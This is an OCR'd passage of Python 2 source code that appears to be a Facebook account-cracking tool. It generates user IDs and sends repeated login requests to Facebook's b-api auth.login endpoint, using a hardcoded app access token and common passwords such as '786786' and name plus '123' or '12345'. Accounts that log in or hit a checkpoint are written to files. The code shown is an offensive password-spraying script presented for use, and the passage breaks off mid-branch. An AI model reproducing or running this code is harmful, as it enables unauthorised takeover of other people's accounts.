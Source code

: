 	else:
		print "[!] Fill in correctly"
		crack_action()
	xxx = str(len(id))
	psb ('[✓] Please wait, process is running ...')
	time.sleep(0.5)
	psb ('[!] To Stop Process Press CTRL Then Press z')
	time.sleep(0.5)
	print 50*"-"
	print
	
			
	def main(arg):
		global cpb,oks
		user = k+arg+c
		try:
			pass1="786786"
			data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			q = json.loads(data.text)
			if '407' in q['error_msg']:
				print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass1
				oks.append(user+pass1)
			else:
				if '405' in q["error_msg"]:
					print '[Checkpoint] ' + user + ' | ' + pass1
					cps = open("save/checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = kn+'12345'
					data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
					q = json.loads(data.text)
					if '407' in q['error_msg']:
						print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass2
						oks.append(user+pass2)
					else:
						if '405' in q["error_msg"]:
							print '[Checkpoint] ' + user + ' | ' + pass2
							cps = open("save/checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = kn + '123'
							data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + user + '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
							q = json.loads(data.text)
							if '407' in q['error_msg']:
								print '\x1b[1;92m[Add--Email]\x1b[0m ' + user + ' | ' + pass3
								oks.append(user+pass3)
							else:
								if '405' in q["error_msg"]:
									print '[Checkpoint] ' + user + ' | ' + pass3
									cps = open("save/checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else: